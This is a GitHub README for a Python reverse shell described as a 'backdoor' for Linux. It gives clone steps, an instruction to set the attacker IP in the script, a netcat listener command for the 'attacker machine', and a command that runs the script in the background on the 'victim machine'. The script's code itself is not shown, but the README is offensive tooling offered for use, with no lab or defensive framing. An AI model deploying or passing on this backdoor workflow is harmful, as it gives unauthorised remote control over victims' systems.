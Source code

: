 ## ReverseShell | written in python3

- A python backdoor/reverseshell for linux.

![backd](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

## How to use?

Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```

After successful cloning:
```
cd ReverseShell
```
You will found a file called reverseshell.py:

Now you need to change the ip in the script.

After saving your settings you can test it:

- On the attacker machine:
```
nc -lnvp 5003
```
- On the vivtim machine:
```
python3 reverseshell.py &
```

